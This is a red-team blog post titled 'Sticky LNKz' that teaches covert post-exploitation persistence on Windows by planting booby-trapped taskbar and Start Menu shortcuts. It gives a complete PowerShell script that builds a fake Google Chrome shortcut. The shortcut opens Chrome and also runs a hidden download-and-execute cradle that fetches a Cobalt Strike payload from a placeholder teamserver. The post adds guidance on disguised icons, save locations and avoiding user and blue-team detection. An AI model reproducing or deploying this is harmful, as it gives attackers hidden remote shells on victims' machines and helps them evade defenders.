 ```yaml
---
layout: post
title: Sticky LNKz
date: 2017-08-15
excerpt: "A post about User-Driven persistence using common taskbar and startmenu shortcuts"
tags: [persistence, redteam, cradles, payloads]
comments: false
---
```

# Intro
As a user in a corporate environment, what is one of the first things you do? After you get some coffee and have a chat with your co-workers about the latest news or some semi-personal event from the night before.. you log in. A good blue team will be looking to make sure when you log in there isn't some type of malware set up with persistence to run before you even hear that catchy windows logon tune. With programs like <a href="https://docs.microsoft.com/en-us/sysinternals/downloads/autoruns" title="autoruns">autoruns</a> and well crafted detection methods from just about every security vendor, it is very likely a redteamer will get caught trying to drop persistence in the known and obvious locations.

## User-Drive Persistence
I've seen several different methods of persistence that redteamers (and blackhats) often use to repop a shell on a device that gets shutdown everyday and rebooted the next morning. Senspost's @_staaldraad has a handy tool I was introduced to at Blackhat called "Outlook Ruler". The original concept was once you had credz you could set up an outlook rule to pop a shell whenever needed by sending a triggered email that would delete itself and run a payload via an external webdev share. Genius! Subj: "bSpence love his shells"

One of the major limitations to this type of persistence is that you have to rely on some user interaction to generate your trigger and get the shell (ie. the user has to start an application). However, if you pick an application like Outlook or other commonly used standard applications, this can be a nice way to hide your shell popping payloads in plain sight, hidden from the user, and even better, hidden from the blue team.

I recently had an engagement with @SpecterOps in which @bluscreenofjeff and @enigma0x3 introduced to me some tradecraft payload cradles in which they use .LNK and .HTA files as links in their phishing emails to get initial breach shells. I don't like to name drop, but I'd be kind of a jerk without mentioning someone like @SubTee who's been the cradle Jedi master for a year or two now. Anyways, after playing with the cradles and thinking about how my blue team might react something slapped me in the face as I looked at the taskbar.
<<screenshot of your taskbar>>

## Disclaimer
As I introduce this concept, I apologize if anyone has already explored this method and might think I am blatantly plagurizing their work, I swear it is not my style. 

## Introducing Sticky LNKz
The epiphany I had was that users often customize their user experience by creating Start Menu and Taskbar shortcuts to execute their favorited applications. The other thing users do is create desktop shortcuts, but I will talk about why the Start Menu and Taskbar are much more covert friendly. These shortcuts get saved on the filesystem as .LNK files since that is essentially what a shortcut is, a link to an executable.

## The Payload
Credit to @enigma0x3 for the original powershell LNK generation, but I've added a few things to retrofit this script for taskbar/startmenu usage. In the example below we will be using Google Chrome as a shortcut. Keep in mind this is post-exploitation work to establish User-Based Persistence.
{% highlight html %}
$LNKName = "C:\Users\<YOUR_USER>\Desktop\Google Chrome.lnk"
$BinaryPath = "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
$Arguments = "-nop -c `Start-Process chrome.exe; `$wc = New-Object System.Net.Webclient; `$wc.Headers.Add('User-Agent','Mozilla/5.0 (Windows NT 6.1; WOW64;Trident/7.0; AS; rv:11.0) Like Gecko'); `$wc.proxy= [System.Net.WebRequest]::DefaultWebProxy; `$wc.proxy.credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials; IEX (`$wc.downloadstring('http://TEAMSERVER:80/URI'))"
$obj = New-Object -COM WScript.Shell
$link = $obj.CreateShortcut($LNKName)
$link.WindowStyle = '7'
$link.TargetPath = $BinaryPath
$link.Arguments = $Arguments
$link.IconLocation = "C:\Program Files (x86)\Google\Chrome\Application\chrome.exe, 0";
$link.Save()
{% endhighlight %}
## Snippet Step-by-Step
The LNKName identifies the save location of the lnk you're generating. You want this to be named exactly like the a taskbar or start menu lnk might look. The BinaryPath establishes powershell.exe as the executable to run instead of the path to chrome.exe
{% highlight css %}
$LNKName = "C:\<DESIRED_LOCATION>\Google Chrome.lnk"
$BinaryPath = "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
{% endhighlight %}
The first part of the command execution here is to start chrome.exe so the user gets an actual chrome popup and doesn't get suspicious that their shortcut didn't start as intended. This can be tricky and works depending on $PATH, but I've noticed putting the full path to the binary usually craps out the script. The second piece is your standard arguments to start a proxy aware shell using a CobaltStrike powershell web drive-by script that you've already hosted on your teamserver.
{% highlight css %}
$Arguments = "-nop -c `Start-Process chrome.exe; `$wc = New-Object System.Net.Webclient; `$wc.Headers.Add('User-Agent','Mozilla/5.0 (Windows NT 6.1; WOW64;Trident/7.0; AS; rv:11.0) Like Gecko'); `$wc.proxy= [System.Net.WebRequest]::DefaultWebProxy; `$wc.proxy.credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials; IEX (`$wc.downloadstring('http://TEAMSERVER:80/URI'))"
{% endhighlight %}
The following are required to create the lnk and populate it with the information you've already defined.
{% highlight css %}
$obj = New-Object -COM WScript.Shell
$link = $obj.CreateShortcut($LNKName)
$link.WindowStyle = '7'
$link.TargetPath = $BinaryPath
$link.Arguments = $Arguments
{% endhighlight %}
The IconLocation here is essential to our .lnk remaining covert and not tipping off the user. Notice after the full path the ", 0". This tells the lnk to take the first icon populated in the chrome.exe binary. You can explore this manually by creating shortcuts and changing the icons, but I've pretty much seen 0 as the common choice. 
{% highlight css %}
$link.IconLocation = "C:\Program Files (x86)\Google\Chrome\Application\chrome.exe, 0";
$link.Save()
{% endhighlight %}
## Save Location
You really have two options when generating the link. Locally on your lab machine and then uploading it to the below locations on the filesystem, or be bold and upload it directly to the compromised host in the start menu or taskbar locations.
## Task Bar
Windows 10/7
{% highlight css %}
%AppData%\Microsoft\Internet Explorer\Quick Launch\User Pinned\TaskBar
{% endhighlight %}
## Start Menu
Windows 10/7
{% highlight css %}
%AppData%Microsoft\Windows\Start Menu
{% endhighlight %}
## Why No Desktop Love?
As I indicated before you *could* generate a lnk and put it on the user's desktop, but there is some OPSEC considerations that tip off the user. When hovering over the Desktop shortcut the "Location:<PATH_TO_EXECUTABLE>" is shown on hover. This will get you busted pretty quick if the user is paying attention. The taskbar and startmenu location for some reason do not have the same hovers, so the user will not really be tipped off unless he goes exploring the file locations above.

## To-Do's
I'd really like to eventually have the time to put this in a Cobaltstrike Aggressor script. I've already started a preliminary script, but I've been a bit stuck on how to approach it. I figured I could use some common shortcut types like Google, IE, Outlook, etc.. but having aggressor tie it to a hosted payload has given me some problems. I know it can be done, but I just haven't had the time to dig into it.
The other nice feature I might do is create a powershell script with user-defined input that will generate the link of your choice, but again, this is on my list of things to do.

## Summary
There are many ways to establish persistence and while the most desired persistence is automated without user intervention sometimes you have to use covert methods like I outlined in this post. I realize it isn't the most sophisticated, but in a pinch it is handy tradecraft like this that might get you out of a bind if defenders start to crack down on known persistence locations.

If anyone has any comment or feedback regarding this post please look me up on twitter @bSpence7337. Thanks!